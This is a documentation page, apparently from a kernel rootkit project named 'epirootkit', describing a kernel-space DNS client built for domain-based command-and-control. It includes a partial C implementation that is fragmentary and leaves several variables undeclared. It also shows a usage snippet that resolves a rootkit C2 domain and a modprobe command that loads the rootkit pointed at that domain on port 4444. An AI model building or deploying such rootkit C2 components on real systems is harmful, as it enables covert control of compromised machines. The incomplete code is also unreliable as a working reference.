 ```yaml
---
title: "DNS Resolution"
description: "Kernel-space DNS client for domain-based C2 communication"
icon: "dns"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 512
---
```


# DNS Resolution

Kernel-space DNS client for resolving domain names to IP addresses, enabling domain-based C2 communication.

## Implementation

```c
#define DNS_SERVER_IP   0x08080808  /* 8.8.8.8 */
#define DNS_PORT        53
#define DNS_QUERY_ID    0x1234

int kernel_dns_resolve(const char *hostname, u32 *ip_addr)
{
    // Create UDP socket
    sock_create_kern(&init_net, AF_INET, SOCK_DGRAM, IPPROTO_UDP, &sock);
    
    // Build DNS query
    hdr->id = htons(DNS_QUERY_ID);
    hdr->flags = htons(0x0100);
    hdr->qdcount = htons(1);
    
    // Send query to 8.8.8.8:53
    kernel_sendmsg(sock, &msg, &iov, 1, query_len);
    
    // Parse A record response
    return parse_dns_response(response, ret, ip_addr);
}
```

Builds standard DNS queries and parses A record responses using Google DNS (8.8.8.8).

## Usage

```c
u32 resolved_ip;
int ret = kernel_dns_resolve("jules_chef_de_majeur.epirootkit.com", &resolved_ip);
if (ret == 0) {
    // Use resolved_ip for connection
}
```

## Testing

```bash
# Configure rootkit with domain instead of IP
modprobe epirootkit address=jules_chef_de_majeur.epirootkit.com port=4444

# DNS resolution happens automatically
# Check with: tcpdump -i any port 53
```

Enables dynamic C2 infrastructure using domain names instead of hardcoded IP addresses.

